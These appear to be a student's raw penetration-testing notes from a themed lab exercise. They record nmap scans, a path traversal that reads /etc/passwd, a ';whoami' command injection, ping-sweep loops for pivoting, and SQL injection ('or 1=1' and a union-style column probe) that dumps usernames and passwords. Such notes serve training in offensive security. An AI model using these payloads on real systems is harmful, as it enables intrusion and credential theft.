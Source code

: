 # Server

10.50.22.148:8000

# Target 1

10.50.29.18

22

80

| http-enum: 
|   /robots.txt: Robots file
              /Onlinetools
                        /tools.php
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /share/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

192.168.28.30/27 (Reachable)
192.168.28.160/27 (Unreachable)


                              Military District

ARMY                              AIR DIVISION                    INTERNAL SECURITY BRIGADE



../../../../../etc/passwd


root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:lQQQWZMOSdZHMWgttlPB:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash

openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash

../../../../etc/hosts



System to ping:



Todays stories:


Select story to read: 127.0.0.1 localhost # The following lines are desirable for IPv6 capable hosts ::1 ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-allnodes ff02::2 ip6-allrouters ff02::3 ip6-allhosts

ff02::3 ip6-allhosts


;whoami

  www-data


  ON MINISTRY-DEFENSE

for i in {33..62}; do (ping -c 1 10.0.28.$i | grep "bytes from" &) ; done
64 bytes from 10.0.28.52: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 10.0.28.53: icmp_seq=1 ttl=64 time=1.54 ms
64 bytes from 10.0.28.34: icmp_seq=1 ttl=64 time=62.2 ms
www-data@ministry-defense-11:~$ 64 bytes from 10.0.28.62: icmp_seq=1 ttl=64 time=0.483 ms
64 bytes from 10.0.28.33: icmp_seq=1 ttl=64 time=85.6 ms

.33
53

.34
53


.53
# PING SWEEP ON MIN DEF

www-data@ministry-defense-11:~$ for i in {161..190}; do (ping -c 1 192.168.28.$i | grep "bytes from" &) ; done
64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.84 ms
64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=1.30 ms
www-data@ministry-defense-11:~$ 64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.270 ms

# NMAP 

.177

22
21254

.182 DEFENSE_KP

22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login/: Login page
|   /robots.txt: Robots file
          /login
          /online tools
            /
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

# 192.168.28.182:80

or 1=1 on /login/ 


Array ( [0] => Msmith [name] => Msmith [1] => Squanchy [password] => Squanchy ) 1Array ( [0] => Fpalic [name] => Fpalic [1] => Birdperson [password] => Birdperson ) 1Array ( [0] => Kmichae [name] => Kmichae [1] => MrMeeseeks [password] => MrMeeseeks ) 1

Robots.txt/Onlinetools/../lookup.php

# On 192.168.28.182:80 "locations" link

field 4 & 6 is vulnerable

4 columns

Province 	1
Civilian population 	Rick Sanchez
Residing Unit 	Rsanch
Troop strength 	ScaryTerry

Province 	2
Civilian population 	Morty Smith
Residing Unit 	Msmith
Troop strength 	Squanchy

Province 	3
Civilian population 	Frank Palicky
Residing Unit 	Fpalic
Troop strength 	Birdperson
^
WORKS FOR .177

Province 	4
Civilian population 	Krombopulos Michael
Residing Unit 	Kmichae
Troop strength 	MrMeeseeks


cat port_report.txt
tcp        0      0 0.0.0.0:21254           0.0.0.0:*               LISTEN      19187/SecurityOnion 
tcp        0      0 0.0.0.0:21254           0.0.0.0:*               LISTEN      19166/SecurityOnion 
tcp        0      0 0.0.0.0:21254           0.0.0.0:*               LISTEN      1057/SecurityOnion  
tcp        0      0 192.168.28.177:59014    192.168.28.177:21254    ESTABLISHED 19364/sshd: Fpalic@ 
tcp        0      0 192.168.28.177:21254    192.168.28.177:59014    ESTABLISHED 19166/SecurityOnion 
tcp        0      0 127.0.0.1:36088         127.0.0.1:21254         TIME_WAIT   -                   
tcp        0      0 127.0.0.1:36092         127.0.0.1:21254         TIME_WAIT   -
